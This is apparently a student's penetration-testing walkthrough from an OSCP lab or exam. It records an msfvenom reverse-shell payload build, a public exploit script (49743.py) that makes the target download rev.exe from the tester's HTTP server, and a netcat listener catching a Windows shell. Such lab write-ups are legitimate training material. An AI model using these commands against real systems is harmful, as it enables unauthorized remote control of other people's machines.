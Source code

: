 ![[mini mouse searchsploit.png]]
```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.118 LPORT=4231 -f exe -o rev.exe
`````

- I didnt have to modify any code, but I needed to pip install jsonargparse for the exploit to work
![[Penetration Testing v2/oscp pass 20230412/2. 192.168.118.114 - done/screenshot actual/pip install jsonargparse.png]]
```shell
# pip install jsonargparse
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/192.168.118.114]
└─# pip install jsonargparse

WARNING: Retrying (Retry(total=4, connect=None, read=None, redirect=None, status=None)) after connection broken by 'NewConnectionError('<pip._vendor.urllib3.connection.HTTPSConnection object at 0x7f468aa57370>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution')': /simple/jsonargparse/
Collecting jsonargparse
  Downloading jsonargparse-4.20.1-py3-none-any.whl (184 kB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 184.3/184.3 kB 6.0 MB/s eta 0:00:00
Requirement already satisfied: PyYAML>=3.13 in /usr/lib/python3/dist-packages (from jsonargparse) (6.0)
Installing collected packages: jsonargparse
Successfully installed jsonargparse-4.20.1
WARNING: Running pip as the 'root' user can result in broken permissions and conflicting behaviour with the system package manager. It is recommended to use a virtual environment instead: https://pip.pypa.io/warnings/venv

```

- Throwing Exploit

![[mini mouse exploit throw.png]]
```shell
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/192.168.118.114]
└─# python3 49743.py
target's ip:  192.168.118.114
local http server ip: 192.168.49.118
payload file name: rev.exe
[+] Retrieving payload
200
[+] got shell!

```

- setting up netcat listener and http server and catching
```shell
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/192.168.118.114]
└─# python3 -m http.server 80         
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.118.114 - - [13/Apr/2023 06:10:29] "GET /rev.exe HTTP/1.1" 200 -
192.168.118.114 - - [13/Apr/2023 06:10:29] "GET /rev.exe HTTP/1.1" 200 -


┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4231
listening on [any] 4231 ...
connect to [192.168.49.118] from (UNKNOWN) [192.168.118.114] 50520
Microsoft Windows [Version 10.0.19042.631]
(c) 2020 Microsoft Corporation. All rights reserved.

```
